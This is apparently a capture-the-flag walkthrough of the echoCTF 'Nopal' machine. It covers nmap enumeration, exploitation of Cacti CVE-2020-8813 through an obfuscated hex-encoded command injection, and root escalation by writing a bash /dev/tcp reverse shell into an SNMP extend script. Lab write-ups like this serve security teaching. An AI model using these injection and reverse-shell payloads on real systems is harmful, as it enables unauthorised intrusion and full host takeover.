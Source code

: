 ![image](https://user-images.githubusercontent.com/87468669/220216679-cc40eab0-fe62-46bb-84a0-25f4c3074390.png)

first enumeration with nmap

`nmap -sC -sV -T4 -oN normal.tcp -p 80 -Pn 10.0.30.124`

```
# Nmap 7.93 scan initiated Mon Feb 20 16:51:24 2023 as: nmap -sC -sV -T4 -oN normal.tcp -p 80 -Pn 10.0.30.124
Nmap scan report for 10.0.30.124
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 20 16:51:36 2023 -- 1 IP address (1 host up) scanned in 12.18 seconds
```
cool we have only one port open.

![image](https://user-images.githubusercontent.com/87468669/220217073-41433ddc-cf9a-443c-8cb9-8a50f172456f.png)

we noticed a webserver running on port 80, opening it on a browser we got redirected to a `cacti` cms page requiring us to login. let's look for an exploit.

![image](https://user-images.githubusercontent.com/87468669/220217276-e5ce4418-5483-441d-b702-6edb6246b21f.png)

found an exploit on github. let's clone the exploit and run it.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/EchoCTF/Nopal]
└─$ cd Cacti-CVE-2020-8813      
                                                                                                                                                                      
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/EchoCTF/Nopal/Cacti-CVE-2020-8813]
└─$ ls -al
total 28
drwxr-xr-x 3 n16hth4wk n16hth4wk 4096 Feb 20 17:07 .
drwxr-xr-x 3 n16hth4wk n16hth4wk 4096 Feb 20 17:32 ..
-rw-r--r-- 1 n16hth4wk n16hth4wk 2061 Feb 20 17:07 cacti_rce.py
-rw-r--r-- 1 n16hth4wk n16hth4wk 1963 Feb 20 17:07 cacti_rce.py.old
drwxr-xr-x 8 n16hth4wk n16hth4wk 4096 Feb 20 17:07 .git
-rw-r--r-- 1 n16hth4wk n16hth4wk 1064 Feb 20 17:07 LICENSE
-rw-r--r-- 1 n16hth4wk n16hth4wk  511 Feb 20 17:07 README.md
                                                                                                                                                                      
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/EchoCTF/Nopal/Cacti-CVE-2020-8813]
└─$ python cacti_rce.py -u http://10.0.30.124/cacti/ -l 10.10.1.50 1337
;echo${IFS}62617368202d69203e262f6465762f7463702f31302e31302e312e35302f34343320303e2631|xxd${IFS}-p${IFS}-r|bash
[+] S3nd1ng 3v1l r3qu3st, SHELL???? [+]
[+] Burn1ng C4ct1!! [+]
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.0.30.124.
Ncat: Connection from 10.0.30.124:58664.
bash: cannot set terminal process group (421): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nopal:/opt/cacti$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nopal:/opt/cacti$ 
```
Bull's eye we got a reverse shell, let's escalate privs.


## Privilege Escalation

```
www-data@nopal:/tmp$ ss -tulnp
Netid  State      Recv-Q Send-Q                                Local Address:Port                                               Peer Address:Port              
udp    UNCONN     3840   0                                         127.0.0.1:161                                                           *:*                  
udp    UNCONN     0      0                                        127.0.0.11:57560                                                         *:*                  
tcp    LISTEN     0      128                                               *:80                                                            *:*                   users:(("nginx",pid=441,fd=6),("nginx",pid=440,fd=6))
tcp    LISTEN     0      128                                      127.0.0.11:33283                                                         *:*                  
tcp    LISTEN     0      80                                        127.0.0.1:3306                                                          *:*                  
www-data@nopal:/tmp$
```
running the command `ss -tulnp` we can see a udp port running locally on this box. 

```
www-data@nopal:/tmp$ cat /etc/snmp/snmpd.conf 
agentAddress  udp:127.0.0.1:161

view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1
sysLocation    ETSCTF_4352d9eb155ffe427fd322e2325d6117
sysContact     echoCTF.RED <info@echoctf.red>
sysServices    72

rocommunity public default
rwcommunity private default
extend etsctf /tmp/snmpd-tests.sh
www-data@nopal:/tmp$ 
```
checking the snmpd.conf file we can see that the snmp server is extending `/tmp/snmpd-tests.sh` let's check the content of the file.

```
www-data@nopal:/tmp$ ls -al /tmp/snmpd-tests.sh
-rwxr-xr-x 1 www-data www-data 87 Feb 21 00:12 /tmp/snmpd-tests.sh
www-data@nopal:/tmp$ cat /tmp/snmpd-tests.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.1.50/1337 0>&1'
www-data@nopal:/tmp$
www-data@nopal:/tmp$ chmod 777 snmpd-tests.sh 
```
injected a malicious payload into the `/tmp/snmpd-tests.sh` file. to trigger the payload we run `snmpwalk localhost -c public -v1 .`

![image](https://user-images.githubusercontent.com/87468669/220221352-c4fcebb8-8d04-4cac-b9ca-1a4580c9a4bb.png)

And Boom we got reverse shell as root. 

![image](https://user-images.githubusercontent.com/87468669/220222512-df2041d8-8efb-468b-a0e1-b2c0ea0dabdd.png)
and we are through.

